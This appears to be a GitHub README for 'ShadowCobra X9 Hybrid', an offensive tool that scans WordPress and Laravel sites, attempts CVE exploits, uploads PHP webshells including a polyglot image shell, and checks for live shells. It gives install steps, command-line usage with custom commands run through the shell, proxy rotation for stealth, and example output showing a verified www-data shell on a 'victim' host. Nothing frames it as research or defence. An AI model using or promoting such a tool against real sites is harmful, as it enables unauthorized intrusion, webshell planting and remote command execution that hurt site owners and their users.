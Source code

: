 ShadowCobra X9 Hybrid

Advanced Vulnerability Scanner + Live Shell Hunter
Hybrid Edition by ShadowHax (2025)


---

🚀 Features

CVE fingerprinting & exploit attempts (WordPress, Laravel, plugins, themes)

Auto file upload testing (.php, .php.jpg, .phtml, .phar)

Proxy rotation & random headers for stealth

Multi-threaded scanning (fast AF)

Live shell verification (whoami check)

Real-time Tkinter dashboard for shell monitoring



---

📦 Requirements

pip install requests colorama termcolor tqdm

> Optional: socks5 proxies supported




---

📂 Project Structure

ShadowCobra-X9-Hybrid/
│── ShadowCobraX9.py       # Main scanner
│── targets.txt            # Target list
│── proxy.txt              # Proxy list (optional)
│── shadow.php             # Webshell payload
│── shell.php.jpg          # Polyglot stealth shell
│── live_shells.txt        # Verified shells (auto-generated)
│── debug_shell_hits.txt   # Debug hits (auto-generated)


---

🔧 Usage

1. Prepare Targets

Add your targets (domains or IPs) in targets.txt:

example.com
testsite.org
victim.net

2. Run Scanner

Basic scan:

python ShadowCobraX9.py

Silent mode (only shows live shells):

python ShadowCobraX9.py --silent

Force HTTPS:

python ShadowCobraX9.py --https

Custom command to execute via shell:

python ShadowCobraX9.py --cmd "id"


---

📊 Output

Console: Shows [SAFE], [VULNERABLE], and [!!!] LIVE SHELL in color

File: live_shells.txt contains verified shell URLs

Dashboard: GUI panel listing all verified www-data shells in real time



---

⚡ Example Run

python ShadowCobraX9.py --silent --cmd "whoami"

Output:

[VULNERABLE] http://victim.net → CVE-2025-26892 (WordPress Celestial Aura v2.2)
[!!!] LIVE SHELL (Verified www-data): http://victim.net/uploads/shadow.php?cmd=whoami

